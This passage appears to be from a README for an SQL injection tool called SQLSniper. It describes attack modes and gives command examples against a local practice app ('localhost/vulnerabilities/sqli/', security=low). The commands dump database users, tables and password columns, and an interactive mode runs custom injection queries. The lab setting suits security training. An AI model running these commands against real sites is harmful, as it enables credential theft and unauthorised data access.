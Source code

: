 ### Attack Modes

SQLSniper offers several specialized attack modes:

- **users**: Extract user credentials from the database
- **version**: Identify database type and version
- **tables**: Enumerate database tables
- **columns**: List columns in a specific table
- **data**: Extract data from specified table columns
- **interactive**: Enter custom SQL injection queries manually

## Examples (your PHPSESSID will be different)

### Dumping All Users

```bash
python3 sqlsniper.py -u "http://localhost/vulnerabilities/sqli/" -c "PHPSESSID=0v7plsq76ts6hr8dmnqiq427s4;security=low" -m users
```

### Identifying Database Version

```bash
python3 sqlsniper.py -u "http://localhost/vulnerabilities/sqli/" -c "PHPSESSID=0v7plsq76ts6hr8dmnqiq427s4;security=low" -m version
```

### Listing Database Tables

```bash
python3 sqlsniper.py -u "http://localhost/vulnerabilities/sqli/" -c "PHPSESSID=0v7plsq76ts6hr8dmnqiq427s4;security=low" -m tables
```

### Viewing Columns in a Table

```bash
python3 sqlsniper.py -u "http://localhost/vulnerabilities/sqli/" -c "PHPSESSID=0v7plsq76ts6hr8dmnqiq427s4;security=low" -m columns -t users
```

### Extracting Data from a Table

```bash
python3 sqlsniper.py -u "http://localhost/vulnerabilities/sqli/" -c "PHPSESSID=0v7plsq76ts6hr8dmnqiq427s4;security=low" -m data -t users -cols user_id,first_name,last_name,password
```

## Interactive Mode

The interactive mode is SQLSniper's most powerful feature, allowing you to craft and execute custom SQL injection payloads directly against the target. This mode is particularly useful for:
- Exploring database structures beyond the automated modes
- Testing various injection techniques
- Extracting specific data with custom queries
- Training and learning SQL injection techniques
